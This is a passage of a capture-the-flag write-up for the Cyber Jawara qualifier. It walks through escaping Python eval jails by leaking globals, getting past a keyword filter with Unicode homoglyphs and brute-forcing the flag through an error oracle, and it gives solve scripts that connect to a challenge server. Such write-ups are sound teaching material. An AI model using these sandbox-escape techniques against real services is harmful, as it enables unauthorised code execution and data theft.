   initial = "Rani menemukan sebuah catatan kecil di dalam laci yang terkunci. Catatan itu bertuliskan,"
   
   for key in perms(range(10)):
       plain = unscramble(cipher, key)
       if plain.startswith(initial):
           print("Key:", key)
           print("Pesan Asli:", plain)
           break
           
except Exception as ex:
   print(f"Error: {ex}")


**Flag: `CJ{Rahasia ini hanya milikmu sekarang, gunakan dengan bijak dan jangan sampai jatuh ke tangan yang salah}`**  
**Rating \[4/10\]**

## MISC

### [100] Welcome\! [34 Solves]

Welcome to Cyber Jawara Quals!  
Flag format: CJ{\[^{}\]+}  
Example: CJ{Welkom\_bij\_CJ\_nationale\_qual!!!}

#### Solution

The flag is in the description, dummy. And– UGH– We almost had first blood!!  



**Flag: `CJ{Welkom_bij_CJ_nationale_qual!!!}`**  
**Rating \[1/10\]**

### [100] 🩸 pyflag 🩸 [xx Solves]

Simple eval in Python.  
**Author: farisv**

#### Summary

Given a pyjail, where the flag string is initialized globally and with only a weak blacklist, I just input the expression ``globals()`` on the ``print(eval(input()))`` to get a flag. EZ.

#### Solution


#!/usr/local/bin/python3 -S

flag = "CJ{REDACTED}"

expression = input()

if len(expression) <= 10 and 'flag' not in expression:
    try:
        result = eval(expression)
        print(result)
    except Exception as e:
        print("Invalid")


The only restriction in this jail is that there’s no substring of flag, and that the input length is at most 10 chars. Welp, “In Python, the ***`globals()`*** function is a built-in function that returns a dictionary representing the current global symbol table.” When you pass a dictionary (or any object) into the ``print()`` function in Python, the ``__repr__`` method of that object is called that is responsible for providing a string representation of the object, which is then printed to the console.  



**Flag: `CJ{e74049a250681557c322ae3bbbd2b51b}`**  
**Rating \[2/10\]**

### [420] 🩸 pyrip 🩸 [5 Solves]

> Written by roxasz_

Make the python crash on right address.  
**Author: farisv**

#### Solution

1. The key part is on this code.

`pyrip.c`:

if (WSTOPSIG(status) == SIGSEGV) {
  ptrace(PTRACE_GETREGS, pid, 0, &regs);
  if (regs.rip == 0xc0ffeedecaf) {
    system("cat flag.txt");
  }
}


This shows the program is:

- Waiting for a segmentation fault (SIGSEV)  
- Checking if the instruction pointer (rip) was at exactly on 0xc0ffeedecaf  
- If its true, it prints the flag.  
2. After that, we saw that we get a Python interpreter through

`pyrip.c`:

execl("/usr/bin/python3", "/usr/bin/python3", NULL);


So we need a way to make Python crash exactly on that address, the easiest way is to use ctypes to : 

- Create a function pointer to that exact address  
- Try to call it, which will cause Python to try executing code  
- Since nothing exist at that address. It crashes exactly where we want.

And, thats why we use

`solv.py`:

from ctypes import *
import mmap
import ctypes

crash = cast(0xc0ffeedecaf, CFUNCTYPE(None))
crash()


This kind of “controlled crash” technique.

**Flag: `CJ{=\\\*= Jump, pogo, pogo, pogo, pogo, pogo, pogo, pogo \=\*/=}`**  
**Rating \[7/10\]**

### [420] ⌛️ py50 ⌛️ [5 Solves]

Get the flag by evaluating at most 50 chars of Python expression.  
**Author: farisv**

#### Summary

Given: no \_\_builtins\_\_, no ‘flag’ in payload, max payload length of 50, and “Invalid” output on eval exception; I BF the flag characters with ‘error based’ flag retrieval!!– Actually an upsolve, but I thought it would be neat to include it here :3

#### Solution

We’re given a Python script for the challenge, and here’s it:

`py50.py`:

#!/usr/local/bin/python3 -S

restricted_globals = {
    '__builtins__': None,
    'flag': "CJ{REDACTED}",
}

expression = input()

if len(expression) <= 50 and 'flag' not in expression:
    try:
        eval(expression, restricted_globals)
    except Exception as e:
        print("Invalid")


So, how does this differ from pyflag? A lot, actually. Let’s get over this.  
See, the main concern here is that [__builtins__](https://docs.python.org/3/library/builtins.html) are set to ``None``, or what you might know as ``NULL``. That means nothing like globals(), print(), or what else you care about. But still, even then, there’s actually a way out here. Objects, like tuple, lambda, and what else are still present! So, you can derive ``__globals__`` from them and do whatever. Since ‘flag’ is a str (string), it inherits the methods of str! You can call .find() or .count() or .index() or whateveeeer you can think of.  
Now for the big part of this solution, **is Python's unicode compatibility**! I read about it from [a github repo](https://github.com/salvatore-abello/python-ctf-cheatsheet/blob/main/pyjails/README.md#no-ascii-letters), and? It works here! We can replace the ASCII string ‘flag’ with unicode, like 𝔣𝔩𝔞𝔤. That way, we can pass the second check in line 10, and still have python interpreter treats 𝔣𝔩𝔞𝔤 as ‘flag’. Yup!  



For the last part, is how the result of ``eval()`` is not printed at all here, instead, there’s only this general try catch handling. Well? So? We need to find a method or function that is usable to determine the characters of the flag through **exceptions**. One could say, this is error-based. Here, I used ``.index()``, since it’s just like ``.find()`` but raises ``ValueError`` when the substring is not found. Perfect, isn’t it?!  
With all that, my payload looks like ``f'𝔣𝔩𝔞𝔤[X].index(C)'``, where X is the index I’m retrieving, and C is the guessed character. Note the unicode ``𝔣𝔩𝔞𝔤``. If the character at index X is indeed C, there won’t be an exception! Now, just try that at starting from index 3 until you get to a closed bracket (``}`` -> end of flag) character!!   
;)

`solve.py`: (fixed)

import string
from pwn import *

context.log_level = "CRITICAL"

idx = 3 # cuz we already know flag prefix is CJ{
charset = string.printable.replace('}', '')
run = True
flag = ''

while run:
    # test if EOF (End of Flag LOL)
    payload = f'𝔣𝔩𝔞𝔤[{idx}].index("}}")'
    con = remote('159.89.193.103', 9998)
    con.sendline(payload.encode('utf-8'))
    run = b'Invalid' in con.recvall() # was not in, im dum dumb ;;
    con.close()

    # brute the index
    for c in charset:
        payload = f'𝔣𝔩𝔞𝔤[{idx}].index("{c}")'
        con = remote('159.89.193.103', 9998)
        con.sendline(payload.encode('utf-8'))
        if b'Invalid' not in con.recvall():
            flag += c
            print(f'[{idx:3d}] Got: {c}')
            # run = True # a dirty fix to that bug above that just introduces a new bug :/
            con.close()
            break
        else:
            con.close()
    idx += 1

print(f'yayyyy CJ{{{flag}}} :DDDDDDD')


When I run it, it halts at `idx` 34, since the EOF test actually has a logic error (I’m bad I know). But I had the output and that’s enough to construct the flag :D  
*when yh don’t have things 2 do so you upsolve ctfs*

**Flag: `CJ{d8bf5e4e9439ffb274130cb509a87f7a}`**  
**Rating \[6/10\]**
